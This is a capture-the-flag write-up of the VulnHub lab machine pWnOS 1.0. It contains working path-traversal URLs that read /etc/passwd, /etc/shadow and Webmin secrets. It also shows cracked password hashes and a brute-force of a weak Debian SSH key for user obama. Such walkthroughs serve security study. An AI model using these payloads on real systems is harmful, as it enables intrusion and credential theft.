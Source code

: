 ```yaml
---
layout: post
title: "pWnOS: 1.0"
date: 2015-05-10 12:13:34 +0200
comments: true
categories: [vulnhub, pwnos]
---
```

Image: [pWnOS: 1.0](https://www.vulnhub.com/entry/pwnos-10,33/)

Nmap output:
{% codeblock %}
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
139/tcp   open  netbios-ssn Samba smbd 3.X (workgroup: MSHOME)
445/tcp   open  netbios-ssn Samba smbd 3.X (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endcodeblock %}

After a while of browsing the web page, we found trivial LFI vulnerability:
{% codeblock %}
http://193.168.0.25/index1.php?help=true&connect=../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:x:100:101::/nonexistent:/bin/false
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
{% endcodeblock %}

We can find a lot of information querying the samba service too:
{% codeblock %}
root@kali:~/vulnhub/pwnos# nmblookup -A 192.168.0.25
Looking up status of 192.168.0.25
        UBUNTUVM        <00> -         H <ACTIVE>
        UBUNTUVM        <03> -         H <ACTIVE>
        UBUNTUVM        <20> -         H <ACTIVE>
        ..__MSBROWSE__. <01> - <GROUP> H <ACTIVE>
        MSHOME          <1d> -         H <ACTIVE>
        MSHOME          <1e> - <GROUP> H <ACTIVE>
        MSHOME          <00> - <GROUP> H <ACTIVE>

        MAC Address = 00-00-00-00-00-00

root@kali:~/vulnhub/pwnos# smbclient -L\\UBUNTUVM -I 192.168.0.25 -N
Anonymous login successful
Domain=[MSHOME] OS=[Unix] Server=[Samba 3.0.26a]

        Sharename       Type      Comment
        ---------       ----      -------
        home            Disk      Home Directory for vmware User
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (ubuntuvm)
Anonymous login successful
Domain=[MSHOME] OS=[Unix] Server=[Samba 3.0.26a]

        Server               Comment
        ---------            -------
        UBUNTUVM             ubuntuvm

        Workgroup            Master
        ---------            -------
        MSHOME               UBUNTUVM
{% endcodeblock %}

There are a few enumeration modules in metasploit:
{% codeblock %}
msf exploit(usermap_script) > use auxiliary/scanner/smb/pipe_auditor
msf auxiliary(pipe_auditor) > setg RHOSTS 192.168.0.25
RHOSTS => 192.168.0.25
msf auxiliary(pipe_auditor) > exploit

[*] 192.168.0.25 - Pipes: \netlogon, \lsarpc, \samr, \eventlog, \InitShutdown, \lsass, \ntsvcs, \srvsvc, \wkssvc
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf auxiliary(smb_enumshares) > use auxiliary/scanner/smb/smb_enumusers
msf auxiliary(smb_enumusers) > exploit

[*] 192.168.0.25 UBUNTUVM [ games, nobody, proxy, syslog, www-data, root, news, bin, mail, dhcp, daemon, sshd, man, lp, mysql, gnats, backup, sys, klog, vmware, list, irc, sync, uucp ] ( LockoutTries=0 PasswordMin=5 )

msf auxiliary(smb_login) > use auxiliary/scanner/smb/smb_lookupsid
msf auxiliary(smb_lookupsid) > exploit

[*] 192.168.0.25 PIPE(LSARPC) LOCAL(UBUNTUVM - 5-21-2952145021-507220021-499326276) DOMAIN(MSHOME - )
[*] 192.168.0.25 USER=nobody RID=501
[*] 192.168.0.25 GROUP=None RID=513
[*] 192.168.0.25 USER=root RID=1000
[*] 192.168.0.25 USER=daemon RID=1002
[*] 192.168.0.25 USER=bin RID=1004
[*] 192.168.0.25 USER=sys RID=1006
[*] 192.168.0.25 USER=sync RID=1008
[*] 192.168.0.25 USER=games RID=1010
[*] 192.168.0.25 USER=man RID=1012
[*] 192.168.0.25 USER=lp RID=1014
[*] 192.168.0.25 USER=mail RID=1016
[*] 192.168.0.25 USER=news RID=1018
[*] 192.168.0.25 USER=uucp RID=1020
[*] 192.168.0.25 USER=proxy RID=1026
[*] 192.168.0.25 USER=www-data RID=1066
[*] 192.168.0.25 USER=backup RID=1068
[*] 192.168.0.25 USER=list RID=1076
[*] 192.168.0.25 USER=irc RID=1078
[*] 192.168.0.25 USER=gnats RID=1082
[*] 192.168.0.25 USER=dhcp RID=1200
[*] 192.168.0.25 USER=syslog RID=1202
[*] 192.168.0.25 USER=klog RID=1204
[*] 192.168.0.25 USER=mysql RID=1206
[*] 192.168.0.25 USER=sshd RID=1208
[*] 192.168.0.25 USER=vmware RID=3000
[*] 192.168.0.25 UBUNTUVM [nobody, root, daemon, bin, sys, sync, games, man, lp, mail, news, uucp, proxy, www-data, backup, list, irc, gnats, dhcp, syslog, klog, mysql, sshd, vmware ]
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
{% endcodeblock %}

The webmin is vulnerable and the exploit in metasploit:
{% codeblock %}
       Name: Webmin File Disclosure
     Module: auxiliary/admin/webmin/file_disclosure
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2006-06-30
{% endcodeblock %}

Basically the exploitation could be performed on command line to disclose arbitrary file, for example:
{% codeblock %}
http://192.168.0.25:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/webmin/miniserv.conf

http://192.168.0.25:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/webmin/miniserv.users

http://192.168.0.25:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/webmin/miniserv.pem
{% endcodeblock %}

{% codeblock %}
http://192.168.0.25:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow

root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
daemon:*:14040:0:99999:7:::
bin:*:14040:0:99999:7:::
sys:*:14040:0:99999:7:::
sync:*:14040:0:99999:7:::
games:*:14040:0:99999:7:::
man:*:14040:0:99999:7:::
lp:*:14040:0:99999:7:::
mail:*:14040:0:99999:7:::
news:*:14040:0:99999:7:::
uucp:*:14040:0:99999:7:::
proxy:*:14040:0:99999:7:::
www-data:*:14040:0:99999:7:::
backup:*:14040:0:99999:7:::
list:*:14040:0:99999:7:::
irc:*:14040:0:99999:7:::
gnats:*:14040:0:99999:7:::
nobody:*:14040:0:99999:7:::
dhcp:!:14040:0:99999:7:::
syslog:!:14040:0:99999:7:::
klog:!:14040:0:99999:7:::
mysql:!:14040:0:99999:7:::
sshd:!:14040:0:99999:7:::
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::
{% endcodeblock %}

Using john on /etc/shadow, we obtain credentials of user vmware for successful login to the system:
{% codeblock %}
h4ckm3           (vmware)
{% endcodeblock %}

The box could be rooted using standard vmsplice exploit.

However, there is another way to get user account. The script
[dowkd.pl](https://wiki.debian.org/SSLkeys#Testing_keys_using_dowkd.pl) ensures
us that the OpenSSL is vulnerable
([CVE-2008-0166](https://security-tracker.debian.org/tracker/CVE-2008-0166)). 

We download and unpack already generated RSA keys from offensive-security repository:
{% codeblock %}
$ wget https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/debian_ssh_rsa_2048_x86.tar.bz2
{% endcodeblock %}

Because usage of weak private keys could be blacklisted on our server, we use
the following
[instructions](https://unix.stackexchange.com/questions/109908/public-key-f36e8704ea2db360ff42ad26671794d5-blacklisted-see-ssh)
to enable them. 

Basically adding this directive to our ssh_config file should be sufficient:
{% codeblock %}
UseBlacklistedKeys yes 
{% endcodeblock %} 

In exploitdb, we use python script to try every possible private key:
{% codeblock %}
$ python platforms/linux/remote/5720.py /tmp/rsa/2048 192.168.0.25 obama

Key Found in file: dcbe2a56e8cdea6d17495f6648329ee2-4679
Execute: ssh -lobama -p22 -i /tmp/rsa/2048/dcbe2a56e8cdea6d17495f6648329ee2-4679 192.168.0.25
{% endcodeblock %}
